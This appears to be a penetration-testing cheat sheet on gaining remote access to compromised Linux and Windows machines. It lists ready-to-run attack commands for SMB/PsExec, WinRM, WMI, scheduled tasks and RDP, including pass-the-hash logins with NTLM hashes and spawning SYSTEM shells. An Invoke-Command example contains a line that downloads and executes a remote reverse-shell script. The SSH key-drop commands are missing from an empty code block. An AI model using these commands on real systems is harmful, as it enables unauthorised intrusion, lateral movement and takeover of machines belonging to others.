

Remote access
Reverse shells are useful when you does not have credentials or you just exploited a service. Here are listed more methods to access remotely a machine.
Linux
SSH + Dropping a key
If you compromise a user and is a ssh capable user (check for a login shell in /etc/passwd), it is possible to get his ssh key in ~/.ssh/id_rsa if its located in the typical location. If there is no key, it is always possible to drop one with two simple commands:
1 2 3 4 5 6 7 8 | |
Windows
Below is a table used as a cheatsheet for different ways to connect remotely depending on open ports:

RDP
- Port: 3389
- Tools
- Microsoft RDP Client (
mstsc.exe)1mstsc.exe /v:hostname:port /admin - XFreeRDP:
1xfreerdp /u:user /d:domain /pth:<NTLM> /v:10.0.0.2 - RDesktop:
1rdesktop -g 90% 10.0.0.1
- Microsoft RDP Client (
SMB
Quote
SMB has been leveraged for file administration on Windows and *nix systems for decades. Another feature often abused by attackers is the use of administrative shares (C$, ADMIN$, IPC$) to push a service binary to a target machine, then start the service for semi-interactive I/O. SysInternalsSuite includes the PsExec binary which is largely credited for developing and leveraging this technique. Local administrative privileges are required to push the service binary to the ADMIN$ share, after which an RPC/SVCCTL call creates and starts the remote control service. IPC$ is leveraged to create named pipes for input and output which act as a semi-interactive shell.
Credit: https://dolosgroup.io/blog/remote-access-cheat-sheet
- Port: 445
-
Tools
1PsExec.exe \\10.0.0.1 -u user -p pass cmd.exe1psexec.py 'user':'pass'@10.0.0.1 cmd.exe1smbexec.py 'user':'pass'@10.0.0.1 cmd.exe1winexe --system --uninstall -U domain/user%pass //10.0.0.1 cmd.exeInfo
If Credentials with administrative privileges are provided, it is possible to spawn a shell with NT Authority\System user passing the
-sflag to PsExec.exe
Also if you are doing this in an interactive command prompt, you could also pass the-iflag to interact with the created process.
WinRM
- Port: 5985/TCP (HTTP), 5986/TCP (HTTPS)
-
Tools
-
- Normal login
1evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' - Cert Login
1evil-winrm -i 10.0.0.1 -c user.crt -k user.key
Info
It is needed to use
-Sflag if you are connecting to a HTTPS Endpoint - Normal login
-
From Windows Machine
1New-PSSession -Computer IP -Authentication Negotiate -Credential USER | Enter-PSSession- In the section changing user context a method to create a Credential object is explained.
-
WMI
- Port: 135/TCP (RPC), High TCP (DCOM)
- Tools
- Impacket-wmiexec
- Normal
1wmiexec.py domain/user:pass@target_ip - Pass the hash
1wmiexec.py user@target_ip -hashes LM:NT
- Normal
- wmic.exe
1wmic.exe /USER:"domain\user" /PASSWORD:"Password" /NODE:10.0.0.1 service get "startname,pathname"
- Impacket-wmiexec
Scheduled Tasks
- Port: 135/TCP (RPC), High TCP (DCOM)
- Tools:
- atexec (Impacket)
1atexec.py user@target_ip -hashes LM:NT
- atexec (Impacket)
Changing user context for cmd
- In a cmd interactive session
- runas
1runas /netonly /user:domain\user "powershell.exe" - psexec
1PsExec.exe -u user -p pass -i cmd.exe
- runas
-
From Powershell
-
Invoke-Command
1 2 3
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force $cred = New-Object System.Management.Automation.PSCredential('user',$pass) Invoke-Command -Computer COMPUTER -Credential $cred -ScriptBlock { command } #Example command: iex (New-Object Net.WebClient).DownloadString('bla/rev.ps1')Note
If you are having problems with "powershell double jump" you can pass the
-Authentication CredSSPto fix it.
-
Adding kerberos config in linux
- Edit the /etc/krb5.conf adding the following (adapt):
1 2 3 4
[realms] DOMAIN.LOCAL = { kdc = 10.0.0.1 } - Get a ticket
1 2
kinit user klist